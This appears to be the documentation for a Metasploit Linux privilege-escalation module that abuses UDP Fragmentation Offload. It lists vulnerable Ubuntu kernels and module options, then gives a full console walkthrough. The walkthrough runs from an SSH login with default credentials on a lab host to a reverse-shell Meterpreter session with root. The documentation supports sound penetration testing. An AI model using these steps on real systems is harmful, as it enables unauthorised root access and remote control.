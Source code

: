 ## Vulnerable Application

This module attempts to gain root privileges on Linux systems by abusing UDP Fragmentation Offload (UFO).

This module has been tested successfully on:

  * Ubuntu 14.04.5 4.4.0-31-generic x64 Desktop
  
The following kernels are vulnerable, but untested on Ubuntu

  * Trusty 14.04
    * 4.4.0-21-generic
    * 4.4.0-22-generic
    * 4.4.0-24-generic
    * 4.4.0-28-generic
    * 4.4.0-31-generic
    * 4.4.0-34-generic
    * 4.4.0-36-generic
    * 4.4.0-38-generic
    * 4.4.0-42-generic
    * 4.4.0-45-generic
    * 4.4.0-47-generic
    * 4.4.0-51-generic
    * 4.4.0-53-generic
    * 4.4.0-57-generic
    * 4.4.0-59-generic
    * 4.4.0-62-generic
    * 4.4.0-63-generic
    * 4.4.0-64-generic
    * 4.4.0-66-generic
    * 4.4.0-67-generic
    * 4.4.0-70-generic
    * 4.4.0-71-generic
    * 4.4.0-72-generic
    * 4.4.0-75-generic
    * 4.4.0-78-generic
    * 4.4.0-79-generic
    * 4.4.0-81-generic
    * 4.4.0-83-generic
  * Xenial 16.04
    * 4.8.0-34-generic
    * 4.8.0-36-generic
    * 4.8.0-39-generic
    * 4.8.0-41-generic
    * 4.8.0-45-generic
    * 4.8.0-46-generic
    * 4.8.0-49-generic
    * 4.8.0-52-generic
    * 4.8.0-53-generic
    * 4.8.0-54-generic
    * 4.8.0-56-generic
    * 4.8.0-58-generic
    * 4.4.0-81-generic
          
### POC Issues

In the original POC exploit, a bash shell is executed with root privileges, however, in testing,
it was determined that the network stack seems to be unresponsive post exploitation to that process
and its children.  To circumvent this issue, this exploit calls a stub bash script to chmod and set
suid/sgid bits on the payload.  Then the original shell can simply execute the payload to escalate.

## Verification Steps

  1. Start msfconsole
  2. Get a shell on a vulnerable box
  3. Do: ```use exploit/linux/local/ufo_privilege_escalation```
  4. Do: ```set session [#]```
  5. Do: ```run```
  6. You should get a root shell.

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to Auto

## Scenarios

### Ubuntu 14.04.5 4.4.0-31-generic x64 Desktop

#### Initial Access

```
resource (ubuntu.rb)> use auxiliary/scanner/ssh/ssh_login
resource (ubuntu.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (ubuntu.rb)> set username ubuntu
username => ubuntu
resource (ubuntu.rb)> set password ubuntu
password => ubuntu
resource (ubuntu.rb)> exploit
[+] 2.2.2.2:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare) Linux ubuntu-desktop-14 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:07:32 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 1 opened (1.1.1.1:45819 -> 2.2.2.2:22) at 2018-04-03 20:58:32 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Escalate

In this scenario, gcc is installed so we can live compile on the system.

```
resource (ubuntu.rb)> use exploit/linux/local/ufo_privilege_escalation
resource (ubuntu.rb)> set verbose true
verbose => true
resource (ubuntu.rb)> set session 1
session => 1
resource (ubuntu.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (ubuntu.rb)> exploit
[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[+] Kernel 4.4.0-31-generic on "14.04" vulnerable
[*] Checking if smap is installed
[+] smap not present.
[+] gcc is installed
[*] Live compiling exploit on system
[*] Writing files to target
[*] Writing szNEyaWe to /tmp/szNEyaWe.c
[*] Max line length is 65537
[*] Writing 25590 bytes in 2 chunks of 56634 bytes (octal-encoded), using printf
[*] Next chunk is 32498 bytes
[*] Writing ZcwJhBLU to /tmp/ZcwJhBLU
[*] Max line length is 65537
[*] Writing 207 bytes in 1 chunks of 629 bytes (octal-encoded), using printf
[*] Writing cecdokdw.sh to /tmp/cecdokdw.sh
[*] Max line length is 65537
[*] Writing 67 bytes in 1 chunks of 251 bytes (octal-encoded), using printf
[*] Starting execution of priv esc, chowning and setting suid bit for payload.
[*] [.] starting
[*] [.] checking distro and kernel versions
[*] [.] kernel version '4.4.0-31-generic' detected
[*] [~] done, versions looks good
[*] [.] checking SMEP and SMAP
[*] [~] done, looks good
[*] [.] setting up namespace sandbox
[*] [~] done, namespace sandbox set up
[*] [.] KASLR bypass enabled, getting kernel addr
[*] [~] done, kernel text:   ffffffff81000000
[*] [.] commit_creds:        ffffffff8109d760
[*] [.] prepare_kernel_cred: ffffffff8109da40
[*] [.] SMEP bypass enabled, mmapping fake stack
[*] [~] done, fake stack mmapped
[*] [.] executing payload ffffffff8104516a
[*] [~] done, should be root now
[*] [.] checking if we got root
[*] [+] got r00t ^_^
[*] Executing payload
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (857352 bytes) to 2.2.2.2
[*] Sleeping before handling stage...
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:42382) at 2018-04-03 20:58:50 -0400

meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 14.04 (Linux 4.4.0-31-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: uid=1000, gid=1000, euid=0, egid=0
```
